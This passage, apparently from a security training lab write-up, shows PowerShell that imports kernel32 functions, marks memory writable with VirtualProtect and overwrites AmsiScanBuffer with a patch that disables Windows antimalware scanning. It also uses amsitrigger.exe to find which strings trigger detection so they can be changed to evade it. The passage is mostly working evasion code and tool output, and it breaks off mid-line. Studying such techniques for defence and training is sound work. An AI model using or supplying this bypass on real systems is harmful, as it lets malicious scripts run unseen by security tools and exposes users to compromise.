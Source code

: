 ```powershell
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3); 

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```
{: .nolineno }

We can use the tool amsitrigger.exe to find if our powershell script is detect as malicious or not. When applying this tool on the base script, we got a stop on $A = "AmsiScanBuffer" :

```powershell
PS C:\Users\Student\Desktop\Tools> .\amsitrigger.exe
     _    __  __ ____ ___ _____     _
    / \  |  \/  / ___|_ _|_   _| __(_) __ _  __ _  ___ _ __
   / _ \ | |\/| \___ \| |  | || '__| |/ _` |/ _` |/ _ \ '__|
  / ___ \| |  | |___) | |  | || |  | | (_| | (_| |  __/ |
 /_/   \_\_|  |_|____/___| |_||_|  |_|\__, |\__, |\___|_|
                                      |___/ |___/         v3
@_RythmStick



Show triggers in Powershell file or URL.
Usage:
  -i, --inputfile=VALUE      Powershell filename or
  -u, --url=VALUE            URL eg. https://10.1.1.1/Invoke-NinjaCopy.ps1
  -f, --format=VALUE         Output Format:
                               1 - Only show Triggers
                               2 - Show Triggers with line numbers
                               3 - Show Triggers inline with code
                               4 - Show AMSI calls (xmas tree mode)
  -d, --debug                Show debug info
  -m, --maxsiglength=VALUE   Maximum Signature Length to cater for,
                               default=2048
  -c, --chunksize=VALUE      Chunk size to send to AMSIScanBuffer,
                               default=4096
  -h, -?, --help             Show Help
PS C:\Users\Student\Desktop\Tools> .\amsitrigger.exe -i ..\snip.ps1 -f 3
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$A = "AmsiScanBuffer
```
{: .nolineno }
